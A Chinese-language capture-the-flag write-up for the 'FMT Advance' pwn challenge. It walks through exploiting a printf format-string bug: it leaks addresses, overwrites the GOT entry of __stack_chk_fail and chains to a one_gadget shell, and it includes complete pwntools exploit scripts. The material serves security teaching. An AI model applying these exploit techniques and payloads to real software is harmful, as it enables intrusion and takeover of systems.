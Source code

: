 # Pwn - FMT Advance

## Solution
確認 binary 開了什麼保護

![](img/checksec.png)

再來分析一下 `chal.c` 可以找到第 16 行

```c
    printf(buf);
```

這邊有一個 FMT 可以利用。整理一下目前的資訊，目前需要先做的事情是不要讓程式直接 return 結束掉，之後利用 FMT 去做 GOT Hijack 達到 RCE。

為了不要讓程式直接 return 掉，所以我們可以去 partial overwrite main 的 return address，讓這個 return address 指到 `__libc_start_main` 在呼叫 `main` 前的位址。

接下來找一下呼叫 `printf` 前 stack 上面可以用的東西。可以發現在 `rsp + 0x20` 的地方有一個可以用的值，這個值指向的位址和 `main` 的 return address 在的位址很近，大多數時候只差最後一個 byte 不一樣。這邊先假設我們已經知道 `main` `rbp` 的位址，利用這個位址我們可以知道 `main` return address 在的位址在 `rbp + 8`，所以就可以把 `rsp + 0x20` 的最後一 byte overwrite 成 `rbp + 8` 的最後一 byte，接著 FMT 把 `rbp + 8` 最後一 byte 從 `...83`（`main` 的 return address） 改成 `...3f`（`__libc_start_main` 呼叫 `main` 前的位址），這樣就可以再一次執行 `main` 了。目前的程式碼應該者這樣：

```py
from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

r = process('./chal', env={'LD_PRELOAD': './libc.so.6'})

gdb.attach(r)
main_rbp_lastbyte = int(input('main rbp > '), 16) & 0xff
payload = b'%63c%10$hhn.%10$p.%21$p.%25$p'.ljust(0x20, b',') + bytes([main_rbp_lastbyte + 8])
r.send(payload)
r.recvuntil(b'.')

main_rbp = int(r.recvuntil(b'.')[:-1], 16) - 8
info(f'main rbp : {hex(main_rbp)}')
libc = int(r.recvuntil(b'.')[:-1], 16) - 0x24083
info(f'libc : {hex(libc)}')
codebase = int(r.recvuntil(b',')[:-1], 16) - 0x11a9
info(f'codebase : {hex(codebase)}')

r.interactive()
```

其中的 `libc.so.6` 可以用以下的 command 拿到：

```shell
docker create --name tmp-ubuntu ubuntu@sha256:874aca52f79ae5f8258faff03e10ce99ae836f6e7d2df6ecd3da5c1cad3a912b
docker cp tmp-ubuntu:/lib/x86_64-linux-gnu/libc-2.31.so ./libc.so.6
docker rm tmp-ubuntu
```

解釋一下程式要怎麼跑，主要就是執行到以下的時候

```py
gdb.attach(r)
```

會開啟 `gdb` 的視窗，利用 `gdb` 找到 `main` `rbp` 的位址，把這個位址回傳給 python，接著就會進入下一次的 `main`，順便還利用 FMT leak 了 `rbp`、`libc` 和 `codebase`。

得到 `codebase` 和 `libc` 後，就可以嘗試 GOT Hijack 了。稍微找一下可以找到

```py
# 0xe3afe execve("/bin/sh", r15, r12)
# constraints:
#   [r15] == NULL || r15 == NULL || r15 is a valid argv
#   [r12] == NULL || r12 == NULL || r12 is a valid envp
```

這個 one gadget，而且 `__stack_chk_fail` 呼叫的時候 `r15` 是 0，但因為 `r12` 不是 0，所以寫一個 ROP gadget 到 `__stack_chk_fail` 的 GOT，然後在 stack 上寫一個小的 ROP，最後改 canary 的值就可以 RCE 了。目前的 script 長這樣：

```py
from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

r = process('./chal', env={'LD_PRELOAD': './libc.so.6'})

gdb.attach(r)
main_rbp_lastbyte = int(input('main rbp > '), 16) & 0xff
payload = b'%63c%10$hhn.%10$p.%21$p.%25$p'.ljust(0x20, b',') + bytes([main_rbp_lastbyte + 8])
r.send(payload)
r.recvuntil(b'.')

main_rbp = int(r.recvuntil(b'.')[:-1], 16) - 8
info(f'main rbp : {hex(main_rbp)}')
libc = int(r.recvuntil(b'.')[:-1], 16) - 0x24083
info(f'libc : {hex(libc)}')
codebase = int(r.recvuntil(b',')[:-1], 16) - 0x11a9
info(f'codebase : {hex(codebase)}')

# 0xe3afe execve("/bin/sh", r15, r12)
# constraints:
#   [r15] == NULL || r15 == NULL || r15 is a valid argv
#   [r12] == NULL || r12 == NULL || r12 is a valid envp
one_gadget = libc + 0xe3afe
stack_chk_fail = codebase + 0x000000000004018
pop_rbx_rbp_r12 = libc + 0x000000000002f830

for i in range(6):
    byte = ((pop_rbx_rbp_r12 >> i * 8) - 63) & 0xff
    payload = f'%63c%10$hhn%{byte}c%9$hhn'.encode().ljust(0x18, b'.') + flat(stack_chk_fail + i, main_rbp + 8)
    r.send(payload)
    r.recvuntil(payload[0x18: 0x19])

payload = b'a' + b'%10$hhn' + flat(0, one_gadget, 0, main_rbp - 8)
r.send(payload)

r.interactive()
```

到這裡我們已經可以 RCE 了，但這是 base on 我們已經知道 `main` `rbp` 的位址，正確來講師我們已經知道 `main` `rbp` 的最後一 byte，可是實際上我們不會知道。這邊可以先假設一個 `main` `rbp` 最後一 byte，然後去嘗試以上的 script 可不可以動，如果可以動那就表示猜對了，不行的話就把 tube 關掉然後重新開一個。因為 `main` `rbp` 最後一 byte 一定和 0x10 對齊，所以基本上一次就猜對的機率差不多是 1/16，多猜幾遍基本上就可以 RCE 了。

最後的 script 在 [這裡](sol/solve.py)

